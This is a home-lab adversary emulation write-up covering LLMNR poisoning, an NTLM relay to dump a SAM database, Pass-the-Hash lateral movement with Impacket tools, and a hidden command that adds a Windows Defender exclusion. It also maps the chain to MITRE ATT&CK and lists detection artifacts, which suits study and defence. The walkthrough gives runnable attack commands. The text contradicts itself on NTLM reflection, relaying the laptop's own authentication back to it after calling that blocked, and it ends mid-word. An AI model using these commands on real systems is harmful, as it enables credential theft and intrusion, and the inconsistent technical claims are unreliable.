

# Adversary Emulation Case Study: Nessus Recon → SMB Relay → Pass-the-Hash Pivot


> **Disclaimer:** All testing, reconnaissance, and exploitation documented in this repository were conducted strictly within an isolated, privately owned physical hardware home lab environment for offensive security research and defensive telemetry validation.

---

## 📋 Table of Contents
1. [Engagement Overview](#-engagement-overview)
2. [Lab Topology & Participants](#-lab-topology--participants)
3. [Executive Summary](#-1-executive-summary)
4. [Visual Attack Flow (Mermaid)](#-2-visual-attack-flow)
5. [MITRE ATT&CK® Mapping](#-3-mitre-attck-framework-mapping)
6. [Technical Walkthrough & CLI Execution Log](#-4-technical-walkthrough--cli-execution-log)
7. [DFIR & Host-Based Forensic Artifacts](#-5-dfir--host-based-forensic-artifacts)
8. [Post-Compromise Execution Vector Comparison](#-6-post-compromise-execution-vector-comparison)
9. [Remediation & Blue Team Hardening](#-7-remediation--blue-team-hardening)

---

## 🎯 Engagement Overview

| Metadata | Details |
| :--- | :--- |
| **Assessment Type** | Internal Network Vulnerability Assessment, Adversary Emulation & DFIR Telemetry Analysis |
| **Target Environment** | Two physical Windows 11 Enterprise hosts on an isolated local lab subnet |
| **Primary Kill Chain** | `Nmap` / `Nessus` ➔ `Responder` (LLMNR/NBT-NS) ➔ `ntlmrelayx` ➔ SAM dump ➔ **Pass-the-Hash** ➔ `wmiexec` ➔ `smbexec` / `atexec` |
| **Privilege Achieved** | Unauthenticated LAN Position ➔ Laptop local admin ➔ `NT AUTHORITY\SYSTEM` on a second host |
| **Key Takeaway** | Demonstrates a two-stage chain: an SMB relay compromises the first host, and **local administrator password reuse** then enables a Pass-the-Hash pivot to a second host — where operators adapt across native Windows RPC/SMB pipes when EDR throttles WMI child processes. |

---

## 🗺️ Lab Topology & Participants

This engagement involved **three distinct network participants**. Separating them is essential to reading the attack correctly, because the two compromise stages use different tradecraft against different hosts.

| Participant | Description | Role in the Engagement |
| :--- | :--- | :--- |
| **Attack Host** | Kali Linux running as a VM, configured with a **bridged** network adapter so it appears as an independent peer on the physical LAN (not NAT). | Runs `Responder`, `ntlmrelayx.py`, and the Impacket execution toolkit. Source of all offensive traffic. |
| **Victim Laptop** | Bare-metal Windows 11 Enterprise laptop. | **Stage 1 target.** Poisoned via LLMNR/NBT-NS, its NetNTLMv2 auth relayed to its own SMB service, local SAM dumped. |
| **Windows Desktop** | Physical Windows 11 Enterprise desktop that also hosts the Kali VM. On the network it is an independent Windows peer, distinct from the VM running on it. | **Stage 2 target.** Compromised via Pass-the-Hash using the laptop's local admin NT hash, which was valid here due to **shared local administrator credentials**. |

> **Why the distinction matters:** Relaying a host's own captured authentication back to that same host is **NTLM reflection**, blocked since MS08-068, and `ntlmrelayx` will refuse it. In this chain the relay target (the laptop's SMB service) and the eventual pivot target (the desktop) are **separate physical machines**, so no reflection occurs. The move onto the desktop is a *separate* technique — Pass-the-Hash — not a continuation of the relay.

> **Evidence note:** This engagement was conducted several months prior to publication, and the lab hosts are no longer accessible for log retrieval. The forensic artifacts in Section 5 are therefore documented as the **characteristic telemetry this tooling generates** — described from the behavior of the techniques and tools used, not re-extracted from preserved event logs. CLI invocations reflect the commands and `-hashes` workflow actually used.

---

## 📄 1. Executive Summary

During an internal adversary emulation exercise, an operator positioned on the local network segment (a bridged Kali Linux VM) conducted active reconnaissance and vulnerability scanning using **Tenable Nessus** and **Nmap** to profile two target Windows 11 Enterprise hosts. Unauthenticated vulnerability scanning immediately exposed a critical protocol misconfiguration: **SMB Message Signing was not enforced** (Nessus Plugin ID `57608`), alongside exposed Windows management ports (TCP 135, 139, and 445).

**Stage 1 — SMB Relay.** The operator bypassed traditional credential harvesting and exploited legacy broadcast name resolution protocols (**LLMNR** and **NBT-NS**) to intercept the **victim laptop's** NetNTLMv2 authentication and relay it to that laptop's own SMB service. Because SMB signing was not required, the relay succeeded, yielding an authenticated administrative session and a dump of the laptop's local SAM database — including the local administrator's NT hash.

**Stage 2 — Pass-the-Hash Pivot.** The two lab hosts shared the **same local administrator password**, so the NT hash recovered from the laptop was equally valid on the **Windows desktop**. Using that hash (no password cracking required), the operator authenticated to the desktop via Impacket and established a semi-interactive command shell. When endpoint behavioral monitoring (Microsoft Defender) disrupted the initial WMI execution channel, the operator demonstrated lateral protocol adaptability — pivoting execution vectors from `wmiexec.py` to `smbexec.py` and `atexec.py` and leveraging directory exclusions to maintain stealthier command-and-control.

The entire compromise traces to two root causes: **SMB signing disabled** (enabling the relay) and **local administrator password reuse** (enabling the pivot).

---

## 🔀 2. Visual Attack Flow



---

## 🛡️ 3. MITRE ATT&CK® Framework Mapping

| Tactic | Technique ID | Technique Name | Adversary Emulation Procedure |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | **T1595.002** | Active Scanning: Vulnerability Scanning | Conducted **Nessus** vulnerability scans against the target hosts to identify exploitable protocol misconfigurations, notably disabled SMB signing (Plugin `57608`). |
| **Discovery** | **T1046** | Network Service Discovery | Utilized **Nmap** and **Nessus** service enumeration plugins to map open management ports (TCP 135 MSRPC, TCP 139 NetBIOS, TCP 445 SMB) on the local subnet. |
| **Discovery** | **T1018** | Remote System Discovery | Enumerated live hosts, OS build versions (Windows 11 Enterprise), and active SMB/NetBIOS listeners across the internal lab network segment. |
| **Credential Access / Collection** | **T1557.001** | Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay | **(Stage 1)** Used **Responder** and **Impacket (`ntlmrelayx.py`)** to poison the victim laptop's broadcast name resolution and relay its NetNTLMv2 authentication to its own SMB service. |
| **Credential Access** | **T1187** | Forced Authentication | Spoofed network resource availability to coerce the victim laptop into automatically transmitting NTLM authentication tokens over SMB. |
| **Credential Access** | **T1003.002** | OS Credential Dumping: Security Account Manager | Dumped the victim laptop's local SAM database over the relayed session, recovering the local administrator NT hash. |
| **Lateral Movement / Defense Evasion** | **T1550.002** | Use Alternate Authentication Material: Pass the Hash | **(Stage 2)** Reused the laptop's local administrator NT hash — valid on the desktop due to shared local credentials — to authenticate to the desktop without cracking the password. |
| **Lateral Movement** | **T1021.002** | Remote Services: SMB/Windows Admin Shares | Accessed hidden administrative shares (`ADMIN$`, `C$`) over TCP 445 to stage command output buffers and interact with the Service Control Manager (SCM). |
| **Execution** | **T1047** | Windows Management Instrumentation | Utilized **`wmiexec.py`** to spawn a semi-interactive shell by invoking WMI classes remotely without dropping a persistent agent binary to disk. |
| **Execution** | **T1569.002** | System Services: Service Execution | Pivoted to **`smbexec.py`** when WMI sessions degraded, creating and deleting transient Windows services to execute arbitrary shell commands as `SYSTEM`. |
| **Execution / Persistence** | **T1053.005** | Scheduled Task/Job: Scheduled Task | Employed **`atexec.py`** as a secondary fallback to execute single-shot reconnaissance and staging commands via the Task Scheduler RPC interface (`TSCH`). |
| **Execution** | **T1059.003** | Command and Scripting Interpreter: Windows Command Shell | Executed native `cmd.exe` commands (`%COMSPEC%`) redirected into temporary share files to simulate interactive shell operations. |
| **Defense Evasion** | **T1562.001** | Impair Defenses: Disable or Modify Tools | Configured directory exclusions within Windows Defender (`Add-MpPreference -ExclusionPath`) to stage tooling outside the scope of real-time antivirus scanning. |

---

## 💻 4. Technical Walkthrough & CLI Execution Log

> Placeholders: `<KALI_IP>` = bridged Kali VM, `<LAPTOP_IP>` = victim laptop (Stage 1), `<DESKTOP_IP>` = Windows desktop (Stage 2), `<ADMIN_USER>` = shared local administrator account, `<NTHASH>` = local admin NT hash recovered from the laptop SAM.

### 4.1 Initial Network & SMB Surface Verification (`Nmap` & `Nessus`)
Targeted port enumeration and NSE checks were executed first to identify active Windows management interfaces and verify SMB signing enforcement:

```bash
# Enumerate MSRPC (135), NetBIOS (139), SMB (445), and WinRM (5985/5986) plus SMB2 signing state
nmap -Pn -sS -p 135,139,445,5985,5986 --script smb2-security-mode,smb-protocols <LAPTOP_IP>
```

```text
Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

Both **uncredentialed** (zero-knowledge attacker view) and **credentialed** (configuration audit view) Nessus scans were then executed. To evaluate full credentialed visibility during baseline testing, File and Printer Sharing and the `RemoteRegistry` service were enabled alongside `LocalAccountTokenFilterPolicy = 1` under `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`.

| Plugin ID | Plugin Name | Severity | Technical Observation & Exploitation Relevance |
| :--- | :--- | :--- | :--- |
| **57608** | **SMB Signing not required** | **Medium (Critical in Relay Context)** | Confirmed that the remote SMB server does not enforce packet signing. Directly enables NetNTLMv2 man-in-the-middle relaying via `ntlmrelayx.py`. |
| **10785** | **SMB NativeLanManager System Info Disclosure** | **Info** | Identified exact OS build (Windows 11 Enterprise) and hostname via unauthenticated SMB session setup. |
| **10395** | **Microsoft Windows SMB Shares Enumeration** | **Info** | Enumerated accessible administrative shares (`ADMIN$`, `C$`, `IPC$`) exposed over TCP 445 when authenticated sessions are established. |
| **10736** | **DCE Services Enumeration** | **Info** | Mapped exposed MSRPC endpoints over TCP 135 and dynamic RPC ports, confirming active listeners for WMI (`IWbemLevel1Login`), Service Control Manager (`svcctl`), and Task Scheduler (`atsvc`). |
| **10394** | **Microsoft Windows SMB Log In Possible** | **Info** | Confirmed that local administrative sessions can authenticate over SMB without UAC remote restrictions blocking access to `ADMIN$`. |

---

### 4.2 Listener Preparation & Name Resolution Poisoning (`Responder`)
To prevent port conflicts on the attack host while `ntlmrelayx.py` binds to incoming relayed connections, `Responder.conf` was updated to disable its internal SMB and HTTP listeners:

```bash
# Disable SMB and HTTP listeners in Responder.conf so ntlmrelayx can bind to TCP 445 and 80
sudo sed -i 's/SMB = On/SMB = Off/g' /etc/responder/Responder.conf
sudo sed -i 's/HTTP = On/HTTP = Off/g' /etc/responder/Responder.conf

# Launch Responder on the bridged LAN interface to poison LLMNR (UDP 5355) and NBT-NS (UDP 137)
sudo responder -I eth0 -dwv
```

> **Networking requirement:** The Kali VM's adapter was set to **bridged** mode. Responder and `ntlmrelayx` operate on broadcast name-resolution traffic, which a NAT'd VM would never see — bridging places the VM on the physical LAN as a first-class peer.

---

### 4.3 Stage 1 — NTLM Relay & SAM Extraction (`ntlmrelayx.py`)
In a parallel terminal, Impacket's `ntlmrelayx.py` relayed the captured NetNTLMv2 handshake to the **victim laptop's** SMB service and dumped its local SAM:

```bash
# Relay the laptop's poisoned NetNTLMv2 authentication to its own SMB service and dump SAM
impacket-ntlmrelayx -t smb://<LAPTOP_IP> -smb2support

# Alternative: hold the relayed session open as a SOCKS proxy for interactive use
impacket-ntlmrelayx -t smb://<LAPTOP_IP> -smb2support -socks
```

On a successful relay, `ntlmrelayx` automatically dumps the target's SAM hashes. The local administrator NT hash recovered here becomes the key to Stage 2.

> **Reflection note:** The relay target (`-t smb://<LAPTOP_IP>`) is the **same host that authenticated**, which is only valid because the authentication was *relayed laterally through the attacker*, not reflected by the host to itself. The subsequent move to the desktop is deliberately **not** a relay — it is Pass-the-Hash — precisely to avoid the MS08-068 reflection block.

---

### 4.4 Stage 2 — Pass-the-Hash Pivot to the Desktop (`wmiexec.py`)
The two lab hosts shared the same local administrator password, so the laptop's NT hash authenticated cleanly against the **desktop**. No cleartext password was ever recovered or needed — this is Pass-the-Hash:

```bash
# Pass-the-Hash to the desktop using the laptop's local admin NT hash
impacket-wmiexec -hashes :<NTHASH> <ADMIN_USER>@<DESKTOP_IP>
```

> **Operational Friction:** Repeated spawning of `cmd.exe` under `WmiPrvSE.exe` with stdout redirected to `\\127.0.0.1\ADMIN$\` triggered Windows Defender behavioral monitoring on the desktop, resulting in hung sessions and dropped connections.

---

### 4.5 Protocol Pivot to Service & Task Execution (`smbexec.py` & `atexec.py`)
When WMI execution on the desktop degraded, operations pivoted to `smbexec.py` (which communicates with the Service Control Manager over TCP 445 to spin up an ephemeral `SYSTEM` service) and `atexec.py` (which executes commands via the Task Scheduler RPC pipe). All three use the same recovered hash:

```bash
# Pivot 1: Service-based semi-interactive shell over SMB (TCP 445)
impacket-smbexec -hashes :<NTHASH> <ADMIN_USER>@<DESKTOP_IP>

# Pivot 2: Single-shot SYSTEM verification via Task Scheduler RPC
impacket-atexec -hashes :<NTHASH> <ADMIN_USER>@<DESKTOP_IP> "whoami /all"

# Defense Evasion: Configure a Windows Defender directory exclusion for payload staging
impacket-atexec -hashes :<NTHASH> <ADMIN_USER>@<DESKTOP_IP> \
  "powershell.exe -NoProfile -NonInteractive -WindowStyle Hidden -Command Add-MpPreference -ExclusionPath 'C:\ProgramData\Staging'"
```

---

## 🔍 5. DFIR & Host-Based Forensic Artifacts

Each stage of the emulation generates distinct high-signal telemetry, and crucially, **on different hosts**. The artifacts below are the characteristic indicators each technique and tool produces; they are documented from the behavior of the tooling rather than re-extracted from preserved logs (see the evidence note above).

### 5.1 Stage 1 — Relay & SAM Dump (Victim Laptop)
* **`Security.evtx` — Event ID 4624 (Successful Logon):**
  * **Logon Type:** `3` (Network) | **Authentication Package:** `NTLM` (`NTLM V2`)
  * **Anomaly Indicator:** Workstation Name reflects the laptop while **Source Network Address** shows `<KALI_IP>` (the bridged VM), not another workstation.
* **`Security.evtx` — Event ID 4672:** Special privileges (`SeDebugPrivilege`, `SeTakeOwnershipPrivilege`) assigned to the network logon.
* **`Security.evtx` — Event IDs 5140 & 5145:** Network share access to `\\*\IPC$`, `\\*\ADMIN$`, and `\\*\C$` on the laptop.
* **SAM access indicators:** Remote registry / SAM read activity consistent with `ntlmrelayx` secretsdump behavior.

### 5.2 Stage 2 — Pass-the-Hash Logon (Windows Desktop)
* **`Security.evtx` — Event ID 4624:** Logon Type `3`, NTLM, with **Source Network Address `<KALI_IP>`** — a network NTLM logon for the local admin account sourced from the attack host is the hallmark PtH indicator.
* **`Security.evtx` — Event ID 4672:** Elevated privileges assigned to that network logon.

### 5.3 `wmiexec.py` Footprint (Desktop)
* **Process Lineage (`Security.evtx` Event ID 4688 / `Sysmon` Event ID 1):**
  * **ParentImage:** `C:\Windows\System32\wbem\WmiPrvSE.exe`
  * **Image:** `C:\Windows\System32\cmd.exe`
  * **CommandLine:**
    ```cmd
    cmd.exe /Q /c <command> 1> \\127.0.0.1\ADMIN$\__1729872000.123456 2>&1
    ```
* **File System (`Sysmon` Event ID 11 / NTFS `$UsnJrnl`):** Creation and rapid deletion of `C:\Windows\__<epoch_timestamp>`.

### 5.4 `smbexec.py` Footprint (Desktop)
* **Service Installation (`System.evtx` Event ID 7045 / `Security.evtx` Event ID 4697):**
  * **Service Name:** `BTOBTO` (default Impacket service identifier) | **AccountName:** `LocalSystem`
  * **Service File Name (`ImagePath`):**
    ```cmd
    %COMSPEC% /Q /c echo <command> ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
    ```
* **Process Lineage:** `services.exe` ➔ `cmd.exe` running as `NT AUTHORITY\SYSTEM`.
* **File System:** Transient creation and deletion of `C:\Windows\Temp\execute.bat` and `C:\__output`.

### 5.5 `atexec.py` Footprint (Desktop)
* **Scheduled Task Telemetry (`Security.evtx` Event IDs 4698 & 4699 / `TaskScheduler/Operational` Event IDs 106, 140, 141, 200):**
  * **Task Name:** `\<8-character random string>` (e.g., `\IvKzLpQr`)
  * **Action Command:**
    ```cmd
    cmd.exe /C <command> > %windir%\Temp\<8-char-random>.tmp 2>&1
    ```
* **Process Lineage:** `svchost.exe -k netsvcs -p -s Schedule` ➔ `cmd.exe` (`NT AUTHORITY\SYSTEM`).
* **File System:** Ephemeral XML task definition in `C:\Windows\System32\Tasks\<8-char-r
